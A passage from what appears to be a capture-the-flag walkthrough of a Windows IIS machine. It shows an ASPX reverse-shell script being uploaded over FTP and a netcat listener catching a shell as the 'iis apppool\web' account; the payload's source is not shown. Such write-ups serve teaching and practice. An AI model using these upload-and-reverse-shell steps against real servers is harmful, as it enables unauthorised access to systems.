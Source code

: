 LHOST is local ip, while, LPORT is the port that we'll use to connect by netcat.

```bash
ftp> put script.aspx
local: script.aspx remote: script.aspx
229 Entering Extended Passive Mode (|||49224|)
125 Data connection already open; Transfer starting.
100% |**************************************************************|  2748        1.12 MiB/s    --:-- ETA
226 Transfer complete.
2748 bytes sent in 00:00 (45.20 KiB/s)
```

Now we can launch netcat on port 444 and run script:

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-25 20-21-37.png" alt=""><figcaption></figcaption></figure>

</div>

```bash
c:\Windows>whoami
whoami
iis apppool\web
```

We're iis apppool\web user, the flag maybe is on the babiis user's desktop

<div align="left">
